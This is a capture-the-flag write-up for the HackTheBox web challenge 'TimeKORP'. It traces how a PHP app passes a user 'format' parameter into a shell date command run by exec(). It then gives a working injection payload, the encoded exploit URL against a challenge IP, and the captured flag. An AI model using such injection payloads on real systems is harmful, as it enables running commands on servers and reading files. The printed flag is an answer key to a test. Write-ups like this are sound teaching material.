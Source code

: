 # Challenge: TimeKORP (Web)

## Challenge Overview

**Name:** TimeKORP
**Category:** Web
**Difficulty:** Very Easy

### Description:

Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

---

# Challenge Progress: TimeKORP (Web)

## Recon & Source Review

### 1. Application Entry Point

The entry point is defined in `index.php`, which registers an autoloader and defines the route:

```php
$router = new Router();
$router->new('GET', '/', 'TimeController@index');
```

This means the request to `/` triggers the `index()` method in `TimeController`.

---

### 2. Controller Behavior

In `controllers/TimeController.php`:

```php
class TimeController {
    public function index($router) {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This passes the user-controlled `format` string to `TimeModel`.

---

### 3. Vulnerable Command Execution

In `models/TimeModel.php`:

```php
$this->command = "date '+" . $format . "' 2>&1";
```

This command is directly passed into `exec()`:

```php
$time = exec($this->command);
```

**VULNERABILITY: Command Injection**

There is **no sanitization**, and since the `format` input is appended inside a single-quoted string, it's possible to break out and inject arbitrary shell commands.

---

## Exploitation

### Malicious Payload:

To escape the single-quoted string and inject shell code:

```
format=%H:%M:%S';cat /flag;echo '
```

### Final Exploit URL:

```
http://94.237.48.12:48434/?format=%25H:%25M:%25S%27%3Bcat%20/flag%3Becho%20%27
```

### Resulting Command:

```
date '+%H:%M:%S';cat /flag;echo '
```

This causes the system to print the time, then output the contents of `/flag` — giving us the flag!

---

## Flag

```
HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_94793f84cc2f4634de81f6718f65948c}
```

---

## Conclusion

This challenge highlights a classic **command injection** vulnerability, often found when unsanitized user input is embedded in shell commands. Escaping user-controlled input is critical to prevent such exploitation.

May god with us~
